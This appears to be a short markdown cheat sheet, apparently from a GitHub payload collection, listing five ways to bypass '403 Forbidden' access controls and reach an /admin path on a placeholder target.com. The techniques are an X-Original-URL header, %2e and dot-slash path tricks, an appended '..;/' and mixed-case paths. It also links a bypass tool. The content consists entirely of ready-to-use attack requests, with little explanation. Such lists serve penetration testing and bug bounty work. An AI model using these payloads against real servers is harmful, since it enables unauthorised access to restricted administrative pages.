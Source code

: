 # 403 Forbidden Bypass

1. Using "X-Original-URL" header
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```
https://github.com/yunemse48/403bypasser


2. Appending **%2e** after the first slash
```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) and slash (/) in the URL
``` 
http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```

4. Add "..;/" after the directory name
```
    http://target.com/admin..;/
```

5. Try to uppercase the alphabet in the url
```
http://target.com/aDmIN
``` 

Source: [@iam_j0ker](https://twitter.com/iam_j0ker)

